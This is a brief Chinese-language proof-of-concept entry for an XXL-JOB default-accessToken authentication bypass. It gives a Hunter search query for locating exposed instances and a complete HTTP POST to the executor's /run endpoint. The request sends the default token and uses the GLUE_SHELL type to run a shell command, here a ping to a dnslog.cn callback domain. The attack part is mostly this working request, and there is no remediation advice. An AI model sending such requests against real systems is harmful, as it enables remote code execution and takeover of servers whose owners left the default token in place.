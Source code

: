 # XXL-JOB默认accessToken权限绕过漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);"> XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ <font style="color:rgb(0, 0, 0);">XXL-JOB</font>

# <font style="color:rgb(0, 0, 0);">三、资产测绘</font>
+ hunter`app.name="XXL-JOB"`
+ 特征![1699413014637-abd39b12-24f1-4f3e-a8be-1b5a12515d2c.png](./img/sKn1oToMtxlW5Er2/1699413014637-abd39b12-24f1-4f3e-a8be-1b5a12515d2c-008562.png)

# 四、漏洞复现
```plain
POST /run HTTP/1.1
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default_token
User-Agent: Java/1.8.0_391
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 323
Connection: close

{"jobId": 287040,"executorHandler": "demoJobHandler","executorParams": "demoJobHandler","executorBlockStrategy": "COVER_EARLY","executorTimeout": 0,"logId": 1,"logDateTime": 1586629003729,"glueType": "GLUE_SHELL","glueSource": "ping 0n3fio.dnslog.cn","glueUpdatetime": 1586699003758,"broadcastIndex": 0,"broadcastTotal": 0}
```

![1699413047757-a647af66-cd6a-4bb0-a48f-876fe2f1c266.png](./img/sKn1oToMtxlW5Er2/1699413047757-a647af66-cd6a-4bb0-a48f-876fe2f1c266-630756.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ixd973mksvmz9c3w>